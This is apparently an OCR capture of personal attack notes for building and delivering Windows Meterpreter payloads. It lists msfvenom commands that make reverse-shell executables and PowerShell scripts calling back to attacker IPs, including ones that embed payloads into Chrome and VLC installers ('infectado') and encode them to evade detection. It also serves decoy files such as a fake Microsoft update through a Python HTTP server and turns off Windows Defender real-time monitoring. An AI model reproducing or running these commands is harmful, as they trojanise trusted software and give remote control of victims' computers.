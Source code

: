 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f psh > payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

http://192.168.1.137/payload.ps1

Test-NetConnection 192.168.1.137 -Port 443

Set-MpPreference -DisableRealtimeMonitoring $true

https://software.download.prss.microsoft.com/dbazure/Win10_22H2_BrazilianPortuguese_x64v1.iso?t=e5e99b27-438b-431d-9d64-86489e182f98&P1=1744405381&P2=601&P3=2&P4=f40ON0oovKGJWGrY%2bug6FI0LMLMWQtsvrWn70G6yYXtMIjlTOdYcUPmEFJ4fO4BwBAuqxNwVixbL6CKd5zlyIAo%2bKvg57n3vO%2bWSZCpo2zky%2blfaamqH%2bKPP33l4jKvGj%2b8HzqiUtM1Q7uGHgoyS3GDDE%2fW4gWCl0O7%2fy%2bB8qLzHK350i3CmZUBY4voa0qJbNO3GD0lb5FePTgvJbWJ4WolWV54uOsGOCtttwlJ5Y3KoIVmVLr9q9Q%2fNc2bf%2bayvgolgzwfqIPY9LN6rG5xyHEE2Evmp6nVsA%2f20SE7yb5v0603UZJmgpTIvrcCDOlq4Us75%2f4ONVSLaXKm3Qx6cyg%3d%3d




 
